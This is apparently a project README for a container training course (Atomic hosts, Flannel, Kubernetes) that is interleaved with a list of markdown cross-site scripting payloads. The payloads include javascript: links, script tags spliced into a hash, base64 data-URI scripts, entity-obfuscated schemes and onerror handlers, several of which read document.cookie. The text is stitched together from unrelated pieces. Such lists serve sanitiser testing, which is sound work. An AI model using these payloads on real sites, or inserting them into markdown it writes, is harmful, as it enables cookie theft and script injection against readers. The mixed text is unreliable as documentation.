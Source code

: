 # SATraining

## Order that the labs should be delivered:

1. [Deploy Atomic Hosts](javascript&#58;alert(1&#41;)deployAtomicHosts.md?q=<script type='text/javascript'>alert('xss')</script>)
1. [Atomic LVM Storage](atomicDockerLVM.md)
1. [SPC Images / Containers](spcContainers.md)
1. [Configure Flannel](configFlannel.md)
1. [Configure Kubernetes](configKubernetes.md)

a5c3785ed8d6a35868bc169f07<script type='text/javascript'>alert('xss');</script>e40e889087fd2e

https://raw.githubusercontent.com/runcom/SATraining/master/index.html

 <a crossorigin='anonymous' integrity="sha256-10f6dcb805d710962eca1331ca575dfabc18c9aaadc5ce762825cc496f70d02d" href='javascript&#58;alert(1&#41;' alt="logo">test<a>

[Gotcha](javascript&#58this;alert(1&#41;)

> hello <img name="n" s
> rc
> &#61;"javascript&#58this;alert(1&#41;">*you*</a>

3. &#61;"javascript&#58this;alert(1&#41;">*you*</a>
4. [notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[a](javascript:prompt(document.cookie))
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
![a](javascript:prompt(document.cookie))\
<javascript:prompt(document.cookie)>  
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>  
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
![a'"`onerror=prompt(document.cookie)](x)\
[citelol]: (javascript:prompt(document.cookie))
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[test](javascript://%0d%0aprompt(1))
[test](javascript://%0d%0aprompt(1);com)


![a'"`onerror=prompt(document.cookie)](x)\
